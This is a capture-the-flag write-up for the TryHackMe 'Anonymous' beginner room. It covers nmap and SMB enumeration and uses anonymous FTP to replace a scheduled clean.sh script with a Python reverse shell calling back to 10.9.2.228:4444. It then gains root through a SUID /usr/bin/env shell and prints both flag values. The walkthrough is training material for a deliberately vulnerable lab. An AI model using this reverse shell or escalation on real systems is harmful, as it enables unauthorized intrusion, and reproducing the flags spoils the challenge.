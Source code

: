 ```yaml
---
title: "Anonymous - TryHackMe"
author: Ludovic COULON
date: 2020-05-19
hero: ./images/hero.png
excerpt: "Writeup for the Anonymous on TryHackMe"
---
```


[TryHackMe | Anonymous](https://tryhackme.com/room/anonymous)

Try to get the two flags! Root the machine and prove your understanding of the fundamentals! This is a virtual machine meant for beginners.
Acquiring both flags will require some basic knowledge of Linux and
privilege escalation methods.

<div className="Image__Medium">
  <img src="https://upload.wikimedia.org/wikipedia/commons/thumb/a/a6/Anonymous_emblem.svg/1024px-Anonymous_emblem.svg.png" alt="blog_image" />
</div>

For more information on Linux, check out [Learn Linux](https://tryhackme.com/room/zthlinux)

---

### #1 Enumerate the machine. How many ports are open?

```bash
➜  TryHackMe nmap -A -vv 10.10.131.140
```

```bash
21/tcp  open  ftp         vsftpd 2.0.8 or later
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_sslv2-drown:

22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)

139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)

445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### #2 What service is running on port 21?

```bash
21/tcp  open  ftp         vsftpd 2.0.8 or later
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_sslv2-drown:
```

```bash
ftp
```

### #3 What service is running on ports 139 and 445?

```bash
smb
```

### #4 There's a share on the user's computer. What's it called?

<div className="Image__Medium">
  <img src="https://imgur.com/4X6K5lM.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://imgur.com/5Aznrzp.png" alt="blog_image" />
</div>

```bash
➜  TryHackMe smbclient -L  10.10.131.140
Enter WORKGROUP\kali password:

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	pics            Disk      My SMB Share Directory for Pics
	IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

```bash
pics
```

### #5 user.txt

Let's go to the ftp using the anonymous login

```bash
➜  TryHackMe ftp 10.10.215.153
Connected to 10.10.215.153.
220 NamelessOne FTP Server!
Name (10.10.215.153:kali): anonymous
331 Please specify the password.
Password: no password there
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 May 17 21:30 scripts
226 Directory send OK.
ftp> cd scripts
250 Directory successfully changed.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 May 17 21:30 .
drwxr-xr-x    3 65534    65534        4096 May 13 19:49 ..
-rwxr-xrwx    1 1000     1000          314 May 14 14:52 clean.sh
-rw-rw-r--    1 1000     1000           86 May 17 22:55 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12 03:50 to_do.txt
226 Directory send OK.
```

Let's put a reverse shell in the ftp shall we ? c:

[Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

You can use whatever you want I will use the python reverse shell.

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.2.228",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Rename the payload 'clean.sh' and put it in the ftp

```bash
ftp> put clean.sh
local: clean.sh remote: clean.sh
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
226 bytes sent in 0.00 secs (2.3427 MB/s)
```

Now let's wait the ftp server to execute the payload

```bash
➜  TryHackMe nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.9.2.228] from (UNKNOWN) [10.10.215.153] 37426
/bin/sh: 0: cant access tty; job control turned off
$ ls
pics
user.txt
$ cat user.txt
90d6f992585815ff991e68748c414740
```

### #6 root.txt

```bash
$ find / -perm -u=s -type f 2>/dev/null
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9066/bin/mount
/snap/core/9066/bin/ping
/snap/core/9066/bin/ping6
/snap/core/9066/bin/su
/snap/core/9066/bin/umount
/snap/core/9066/usr/bin/chfn
/snap/core/9066/usr/bin/chsh
/snap/core/9066/usr/bin/gpasswd
/snap/core/9066/usr/bin/newgrp
/snap/core/9066/usr/bin/passwd
/snap/core/9066/usr/bin/sudo
/snap/core/9066/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9066/usr/lib/openssh/ssh-keysign
/snap/core/9066/usr/lib/snapd/snap-confine
/snap/core/9066/usr/sbin/pppd
/bin/umount
/bin/fusermount
/bin/ping
/bin/mount
/bin/su
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/env
/usr/bin/gpasswd
/usr/bin/newuidmap
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/usr/bin/at
/usr/bin/pkexec
$ ./env /bin/sh -p
/bin/sh: 4: ./env: not found
$ /usr/bin/env /bin/sh -p
/usr/bin/env /bin/sh -p
$ id
uid=1000(namelessone) gid=1000(namelessone) euid=0(root) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

[All the suid shell on GTFOBins | GTFOBins](https://gtfobins.github.io/#+suid)

```bash
$ cd /root/
cd /root/
$ ls
ls
root.txt
$ cat root.txt
cat root.txt
4d930091c31a622a7ed10f27999af363
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/8vldBpt.png" alt="TryhackMeProfile" />
  </a>
</center>

